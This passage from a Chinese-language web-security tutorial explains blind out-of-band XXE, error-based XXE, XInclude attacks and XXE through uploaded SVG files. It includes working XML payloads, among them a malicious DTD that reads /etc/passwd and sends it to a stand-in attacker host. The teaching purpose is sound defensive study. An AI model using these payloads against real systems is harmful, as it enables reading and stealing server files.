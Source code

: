 ## 2.5 无回显 XXE 将数据带外泄露  
首先构造恶意 DTD 文件，内容如下：  
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>"> 
%eval; 
%exfiltrate;
```
将恶意 DTD 文件托管到 web 服务上，例如：`http://web-attacker.com/malicious.dtd`  
最后，攻击者向易受攻击的应用程序提交如下 XXE payload：  
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```
这个 XXE payload 声明了一个名为 `xxe` 的 XML 参数实体，然后在 DTD 中使用该实体。  
这将导致 XML 解析器从攻击者的服务器获取外部 DTD 并内联解释它。然后执行恶意 DTD 中定义的步骤，并将 `/etc/passwd` 文件传输到攻击者的服务器。  

## 2.6 无回显 XXE 报错信息检索敏感信息  
构造恶意 DTD 文件，内容如下：
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> 
%eval; 
%error;
```
可能会产生如下的报错信息：  
```text
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
...
```

## 2.7 XInclude 攻击  
> [!tip]
> SOAP 是基于 XML 的简易协议，可使应用程序在 HTTP 之上进行信息交换。  

有些应用程序接收客户端提交的数据，在服务器端会将数据嵌入到一个 XML 文档中，然后解析该文档。当客户端提交的数据被放置到后端 SOAP 请求中，再由后端 SOAP 服务处理时，这种情况下无法使用常见的 XXE 攻击，因为无法控制整个 xml 文档，无法定义或者修改 `DOCTYPE` 元素。 
这种情况下，需要使用 `XInclude` 进行替代。`XInclude` 允许从子文档开始构建 xml 文档，可以在 xml 文档中的任何数据值中放入 `XInclude`。  
需要使用 XInclude 命名空间，并提供要包含的文件路径，例如：

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## 2.8 利用 XXE 进行文件上传攻击  
一些应用程序允许用户上传文件，在服务端进行处理。一些常见的文件格式使用到了 xml 或者包含 xml 的子组件。例如：`DOCX` 的办公文档，`SVG` 的图片格式。  
例如：应用程序可能允许用户上传图像，希望接受 `PNG` 或 `JPEG` 等格式，而图像处理库可能也支持 `SVG` 格式。可以通过提交恶意的 `SVG` 图像，达到 XXE 攻击。  
构造恶意 SVG 图片文件：  
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text></svg>
```
上传该图像后，显示处理 `/etc/hostname` 文件的内容。  
